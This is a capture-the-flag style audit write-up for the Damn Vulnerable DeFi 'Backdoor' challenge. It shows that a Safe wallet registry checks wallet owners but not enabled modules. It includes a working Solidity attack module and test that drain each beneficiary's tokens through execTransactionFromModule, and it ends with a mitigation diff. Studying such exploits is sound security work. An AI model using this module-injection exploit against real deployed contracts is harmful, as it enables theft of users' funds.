

# Backdoor

## Safe

     A multi-sig wallet with modular extensions

Thanks to [Gmhacker](https://www.gmhacker.com/safe-smart-account-1-3-0-a-deep-dive-part-1) for the excellent deep dive.



## Description

### Normal Behavior

- Registered beneficiaries can deploy Safe proxy wallets via `WalletRegistry`
- Upon successful deployment, each wallet receives 10 DVT tokens from the registry

### Issue

Safe wallets have two types of privileged actors:

- Owner
- Module

The `WalletRegistry.proxyCreated()` callback only validates wallet **ownership**:

```solidity
// WalletRegistry.sol - Line 95-98
address[] memory owners = Safe(walletAddress).getOwners();
if (owners.length != EXPECTED_OWNERS_COUNT) {
    revert InvalidOwnersCount(owners.length);
}
```

It does **not** check if any modules are enabled on the wallet.

Since `SafeProxyFactory.createProxyWithCallback()` is a **public function**, anyone can deploy a proxy on behalf of a beneficiary:

```solidity
// SafeProxyFactory.sol - Line 86-95
function createProxyWithCallback(
    address _singleton,
    bytes memory initializer,
    uint256 saltNonce,
    IProxyCreationCallback callback
) public returns (SafeProxy proxy) {
    uint256 saltNonceWithCallback = uint256(keccak256(abi.encodePacked(saltNonce, callback)));
    proxy = createProxyWithNonce(_singleton, initializer, saltNonceWithCallback);
    if (address(callback) != address(0)) callback.proxyCreated(proxy, _singleton, initializer, saltNonce);
}
```

So, attacker can temporily give up ownership and add a module that can control over ownership and token balance of proxy to pass the registry check and take all the fund

## Risk

### Impact

**High**

- All 40 DVT tokens (10 per beneficiary × 4 beneficiaries) can be drained immediately
- The attack is undetectable by the system and beneficiaries
- The loss token can't be recover

### Likelihood

**High**

- No prerequisites or special conditions
- Anyone can call `createProxyWithCallback(...)`
- Single transaction can drain all 4 beneficiaries (40 DVT total)

## Proof of Concept

### Textual PoC

1. Deploy attack module
2. Deploy a proxy with owner is temporily set to beneficiary, and module is set to attack module
3. The proxy pass the ownership validation so registry transfer 10 DVT to proxy
4. Use the enabled module to call `execTransactionFromModule(...)`, which can transfer tokens to attacker's address/take over ownership
5. Execute for all 4 beneficiaries

### Coded PoC

[Backdoor.t.sol](../../test/backdoor/Backdoor.t.sol)

```solidity
contract AttackModule {
    IERC20 immutable token;
    address immutable recovery;

    constructor(address token_, address recovery_) {
        token = IERC20(token_);
        recovery = recovery_;
    }

    function attack(address proxy_) external {
        (bool success, ) = proxy_.call(
            abi.encodeWithSignature(
                "execTransactionFromModule(address,uint256,bytes,uint8)",
                address(this),
                0,
                abi.encodeWithSelector(AttackModule.transfer.selector, 10e18),
                Enum.Operation.DelegateCall
            )
        );
        require(success, "Attack failed");
    }

    function transfer(uint256 amount_) external {
        token.transfer(recovery, amount_);
    }

    function enableModule(address module_) external {
        (bool success, ) = address(this).call(
            abi.encodeWithSignature("enableModule(address)", module_)
        );
        require(success, "Enable module failed");
    }
}

function test_backdoor() public checkSolvedByPlayer {
    AttackModule module = new AttackModule(address(token), recovery);

    for (uint i = 0; i < users.length; ++i) {
        //Deploy a wallet owned by user[i] with the module of player
        address[] memory beneficiary = new address[](1);
        beneficiary[0] = users[i];
        bytes memory initializer = abi.encodeWithSelector(
            Safe.setup.selector,
            beneficiary,
            1,
            address(module),
            abi.encodeWithSelector(
                AttackModule.enableModule.selector,
                address(module)
            ),
            address(0),
            address(0),
            0,
            player
        );
        SafeProxy proxy = walletFactory.createProxyWithCallback(
            address(singletonCopy),
            initializer,
            i,
            walletRegistry
        );
        //Transfer tokens from wallet to recovery
        module.attack(address(proxy));
    }
}
```

## Recommended Mitigation

**Add module validation to the registry callback**:

```diff
function proxyCreated(SafeProxy proxy, address singleton, bytes calldata initializer, uint256) external override {
    // ...
+   (address[] memory modules, ) = Safe(walletAddress).getModulesPaginated(SENTINEL_MODULES, 1);
+   require(modules.length == 0, "Wallet must not have modules enabled");

    address[] memory owners = Safe(walletAddress).getOwners();
    if (owners.length != EXPECTED_OWNERS_COUNT) {
        revert InvalidOwnersCount(owners.length);
    }
    // ...
}
```
